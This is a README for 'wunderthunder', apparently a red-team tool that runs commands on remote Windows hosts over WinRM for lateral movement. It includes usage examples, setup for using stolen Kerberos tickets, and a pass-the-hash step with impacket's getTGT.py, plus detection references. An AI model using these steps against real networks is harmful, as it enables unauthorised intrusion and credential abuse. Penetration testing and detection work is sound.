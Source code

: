 # wunderthunder

A lateral movement tool based on pywinrm. Requires local administrator
privileges and winrm to be enabled on the endpoint you are targeting.

NOTE: Tested with Python 3.11.4 on MacOS and Linux.

## About

wunderthunder.py - Perform lateral movement via winrm using the pywinrm
library. Currently supports NTLM and Kerberos authentication.

## Installation

Read installation instructions: https://github.com/diyan/pywinrm#installation

## Usage - wunderthunder.py

Please see the tool's help menu below:

```
python wunderthunder.py -h
usage: wunderthunder.py [-h] [-o FILENAME_PREPEND] -u USERNAME -c COMMAND -t TRANSPORT
                        (-p PASSWORD | -P | -k KEYTAB) (-l SERVER | -lf SERVERLIST)

Lateral movement with pyWinRM

options:
  -h, --help            show this help message and exit
  -o FILENAME_PREPEND, --output FILENAME_PREPEND
                        Prepend a string to all output file names
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -P, --prompt          Prompt for the password
  -k KEYTAB, --keytab KEYTAB
                        Absolute/relative path to a keytab file (required if "--transport
                        kerberos")
  -l SERVER, --server SERVER
                        FQDN of server to run commands on
  -lf SERVERLIST, --serverList SERVERLIST
                        File containing FQDN of server(s) to run commands on separated by
                        newline

Server parameters:
  -u USERNAME, --username USERNAME
                        Username to authenticate with in USERNAME@DOMAIN format
  -c COMMAND, --command COMMAND
                        Command to run against winrm endpoint
  -t TRANSPORT, --transport TRANSPORT
                        Transport type, either ntlm/kerberos
```

## Example - wunderthunder.py

Please see some examples below:

### NTLM authentication with clear-text password

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -p 'PASSWORD' -t ntlm -c 'whoami' -l 'HOSTNAME in FQDN format'
```

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -p 'PASSWORD' -t ntlm -c 'whoami' -lf file-containing-hostnames-in-fqdn-format.txt
```

### Kerberos authentication with TGT

Unlike NTLM, Kerberos authentication requires a bit of preparation that needs
to be performed before invoking wunderthunder.py:

- Modify /etc/krb5.conf and set 'default_realm' to FQDN of the domain you are
  attacking.
- (Optional) Modify /etc/hosts to include hosts that have a different Kerberos
  hostname than the domain you are attacking. This is how
  your /etc/host should look like:

```
--SNIP
<DC IP>                 <FQDN of domain you are attacking>
<Kerberos host IP>      <FQDN of host with its correct Kerberos hostname>
--SNIP
```

- Finally, export KRB5CCNAME environment variable with the stolen ticket/keytab
  file e.g:

```
export KRB5CCNAME=kerbtix
```

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -k kerbtix -t kerberos -c 'whoami' -l 'HOSTNAME in FQDN format'
```

```
python wunderthunder.py -u 'USERNAME@DOMAIN' -k kerbtix -t kerberos -c 'whoami' -lf file-containing-hostnames-in-fqdn-format.txt
```

### Kerberos authentication with NTLM hash

You can utilize impacket's getTGT.py to create a Kerberos TGT from NTLM hash:

```
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Saving ticket in user.ccache
```

Make a copy of that ticket and set KRB5CCNAME environment variable
to the ticket location:

```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
```

Finally, you can invoke wunderthunder.py as normal.

## Detection

Refer:

- https://redcanary.com/blog/lateral-movement-winrm-wmi/
- https://in.security/2021/05/03/detecting-lateral-movement-via-winrm-using-kql/

## Credits

wunderthunder.py is pretty much a glorified `for` loop wrapper built around the
pywinrm library. So thank their devs for creating an excellent library.

Refer:

- https://github.com/diyan/pywinrm

